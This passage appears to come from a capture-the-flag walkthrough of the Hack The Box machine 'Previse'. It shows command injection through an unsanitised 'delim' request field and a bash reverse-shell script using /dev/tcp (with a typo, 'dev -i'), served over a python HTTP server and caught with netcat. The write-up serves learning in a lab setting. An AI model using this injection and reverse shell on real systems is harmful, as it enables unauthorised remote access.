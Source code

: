 * Intercepts petition of this part of web page with BurpSuite

![burp2.PNG](/assets/Machines/Easy/Previse/burp2.PNG)

* In this petition we can watch `delim` field in this case the value is **comma** but we can change the value for `somethig; <command to execute>`
* Sign `;` allows execute separate commands. If you remember the most important code line in **logs.php** we can watch this query is not sanitize.

10. Execute a command to obtain a reverse shell

First, create a script to do this:

* **script.sh**
```bash
#!/bin/bash

dev -i >& /dev/tcp/<tun 0 IP>/<Port> 0>&1
```

* Create a server with python
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Previse]
└─| python -m http.server 80
```

* Use curl in petition web to execute this:

![curl.PNG](/assets/Machines/Easy/Previse/curl.PNG)

* **Remember** before forward petition with BurpSuite listen with nc in port choose before

**Output**
```bash
┌──(root㉿kali)-[/home/kali/Desktop/Machines/Easy]
└─| nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.104] 48064
bash: cannot set terminal process group (1546): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$
```
